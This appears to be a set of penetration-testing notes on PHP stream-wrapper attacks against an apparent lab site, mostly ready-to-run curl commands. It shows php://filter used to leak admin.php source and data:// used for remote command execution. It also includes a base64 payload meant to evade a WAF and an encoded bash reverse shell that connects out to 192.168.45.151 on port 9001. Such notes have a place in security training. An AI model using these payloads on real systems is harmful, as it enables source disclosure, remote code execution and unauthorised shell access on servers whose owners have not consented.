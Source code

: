 # PHP Wrappers

## php://filter

If you see a page that doesn't include a closing `<body>` tag for reasons such as it being under maintenance, we can still view the hidden information with the `php://filter` wrapper.

Given the original request:

```bash
# Original request
curl http://mountaindesserts.com/meteor/index.php?page=admin.php

# Wrapper
php://filter/convert.base64-encode

# Modified request
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

We can then decode the output to view the entire page even if it was originally cutoff.

**Note:** This technique can also be used with LFI

### data://

In the same context, we can utilize the `data://` wrapper to obtain RCE.

```bash
# Original request
curl http://mountaindesserts.com/meteor/index.php?page=admin.php

# Wrapper
data://text/plain,

# Modified request
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

# Base64 encoded to bypass WAF (possibly filtering on the string "system")
curl 'http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls'

# Base64 encoded reverse shell
curl 'http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTUxLzkwMDEgMD4mMSciKTs/Pgo='
```

